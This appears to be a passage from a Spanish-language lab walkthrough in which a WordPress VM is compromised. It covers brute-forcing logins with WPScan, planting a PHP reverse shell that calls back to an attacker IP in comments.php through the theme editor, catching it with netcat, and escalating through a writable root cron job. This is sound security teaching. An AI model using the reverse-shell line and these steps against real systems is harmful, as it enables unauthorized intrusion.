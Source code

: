![](https://github.com/academiasIT/ciberseguridad/blob/master/img/8-UsuariosWP.png)

Intentamos loguearnos en `10.0.2.8/backup_wordpress/wp-admin` pero ninguno de los usuarios y sus respectivas contraseñas funcionan.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/9-LoginWordpress.png)

Pero como ya tenemos los usuarios, procedemos a implementar un ataque de fuerza bruta. 
Nos ayudamos de la misma herramienta WPSCAN para proceder con este ataque, sobre el usuario Admin.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/10.1-bruteforceAdmin.gif)

Acá queda de manifiesto que no existe una constraseña que nos permita ingresar con la cuenta `admin`.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/10.2-bruteforceAdmin.png)

Ahora procedemos a probar con el otro usuario `john`.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/11-password.png)

Acá si tenemos éxito, logrando la clave `enigma` para el usuario `john`

Procedemos a loguear en la administración del sitio wordpress con el usuario y clave ingresado.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/12-accesoWP.png)

Entramos al editor del tema de wordpress. Acá podemos modificar los archivos PHP directamente en el navegador web.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/13-EditorWP.png)

Ponemos un regalito [Shell reversa para php](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) en el `comments.php` y guardarmos el archivo. La shell reversa que usaremos es un trozo de código PHP que se ejecutará en la máquina victima. Una vez que visitemos uno de los comentarios del Wordpress ese trozo de código intentará conectarse a la máquina atacante `10.0.2.5` en un puerto específico `1234`. Para ello debemos preparar un listener en la máquina atacante que recibirá y manejará la conexión remota.

La shell reversa en PHP es: `exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.5/1234 0>&1'");`

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/14-ShellReversaPhp.png)

Finalmente recibimos la conexión remota en el Kali Linux mediante el siguiente comando:
`nc -lvp 1234`.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/15-AccesoShell.gif)

Como ya contamos con acceso a la máquina victima, estamos un paso mas cerca de nuestro objetivo: Ser Root!
Para ello se deben utilizar técnicas de [escalación de privilegios](https://www.icann.org/news/blog/que-es-el-escalonamiento-de-privilegios). Para tratar de acortar un poco este material que ya es bastante extenso, diré que dentro de los sistemas operativos Linux, existen tareas recurrentes que se automatizan haciendo uso de Cron. Este proceso toma archivos y los ejecuta cada cierto periodo de tiempo. Resulta que en el caso de nuestra victima, existe un archivo que ha sido puesto para borrar logs. Estos logs son borrados recurrentemente. El gran problema reside en que ese archivo cuenta con permisos elevados, de hecho permisos de super usuario o root y puede ser modificado por cualquiera.

